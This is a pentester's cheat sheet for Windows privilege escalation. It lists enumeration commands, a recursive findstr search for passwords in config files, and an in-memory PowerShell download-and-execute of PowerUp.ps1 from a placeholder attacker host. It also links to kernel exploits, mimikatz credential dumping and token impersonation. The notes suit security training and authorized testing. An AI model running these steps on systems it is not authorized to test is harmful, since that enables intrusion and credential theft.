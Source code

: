 **Resources:**

- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

- [Sushant747 Guide](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html)

- [Absolomb Guide](https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/)

**Manual Enumeration:**

 System:
 
    systeminfo   
    wmic qfe get Caption,Description,HotFixID,InstalledOn  #Patch info   
    wmic logicaldisk get caption,description,providername  #Disk info
    
  User:
  
    whoami /priv #privileges for current user    
    whoami /groups    
    net user 
    net user <user> 

  Network: 
  
    ipconfig
    arp -a
    route print
    netstat -ano
    
   If you find network services that are only available to the local host or a dualhomed NIC you may want to [port forward](https://github.com/Kahvi-0/Cheat-Sheets/blob/master/Post%20exploitation/Windows/Port%20forwarding.md) them to your host 
    
  Password hunting:

     findstr /si password *.txt *.ini *.config
     
  AV: 
  
      sc query windefend
      sc queryex type= service
      
  Firewall:
  
      netsh advfirewall firewall dump
      netsh firewall show state
      netsh firewall show config

**Automated Enumeration**

-------------------------------------------------------------------------------------

- [winPEAS .bat](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)

      wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/winPEAS/winPEASbat/winPEAS.bat
      
 - [winPEAS .exe](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASexe)
      
-------------------------------------------------------------------------------------
    
- [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

Run powershell and run the following to download and run in memory

    iex(New-Object Net.WebClient).DownloadString('http://<ip>:<port>PowerUp.ps1')
    
-------------------------------------------------------------------------------------


- [Windows exploit suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

      wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py && chmod +x windows-exploit-suggester.py && ./windows-exploit-suggester.py --update
      
      # This download and will create an .xlsx database
      
       CMD "systeminfo" saved to a file 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo sysinfo.txt 
      
      # Without 
      
      ./windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --ostext 'windows server 2008 r2'

-------------------------------------------------------------------------------------


- Meterpreter exploit suggester module

      post/multi/recon/local_exploit_suggester


-------------------------------------------------------------------------------------

**[Kernel](https://github.com/Kahvi-0/General-Notes/blob/master/Processes%20and%20architecture/Kernel.md) Exploits**

  Knowing the build of the OS is importent to knowing what kernel version is running and what vulnerabilties that kernel version might have. If you can own the kernel, you own the system.
  
 - Research Kernel exploits shown from tool output such as the exploit suggesters.
  
 - [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)


**Password Hunting**

- Cleartext:

   Note that a lot of these will also be included in the automated enumeration tools

    Manual: 
 
- Hashed: 

  https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/

- [mimikatz](https://github.com/Kahvi-0/Tools-and-Concepts/blob/master/Windows/Mimikatz.md)

  - Need process with permissions to be able to interact with the running lsass.exe process
    -  ran as NT AUTHORITY\SYSTEM
    -  Must be same arch as the lsass.exe running on the target
    
    
    
    
    

[Token impersonation](https://github.com/Kahvi-0/Vulnerabilities-and-Exploitations/blob/master/Local/Token%20Impersonation.md)




    
    
  - [Nishang repo](https://github.com/samratashok/nishang)
